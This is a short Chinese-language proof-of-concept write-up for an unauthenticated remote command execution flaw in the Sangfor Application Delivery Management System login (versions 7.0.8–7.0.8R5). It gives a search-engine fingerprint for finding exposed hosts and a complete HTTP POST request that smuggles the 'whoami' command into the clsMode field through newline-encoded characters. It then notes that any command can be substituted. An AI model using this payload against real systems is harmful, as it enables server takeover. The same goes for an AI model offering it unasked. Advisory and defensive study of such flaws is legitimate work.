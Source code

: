 0x00 漏洞描述

深信服应用交付管理系统login存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

0x01 漏洞发布时间: 2023年8月9日

0x02 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

0x03 网络测绘

fid="iaytNA57019/kADk8Nev7g=="

0x04 漏洞复现


POST /rep/login HTTP/1.1
Host: 1.1.1.1:85
Cookie: UEDC_LOGIN_POLICY_VALUE=checked
Content-Length: 124
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://1.1.1.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://1.1.1.1:85/rep/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

clsMode=cls_mode_login%0Awhoami%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123

通过更改%0A中间的参数执行任意命令

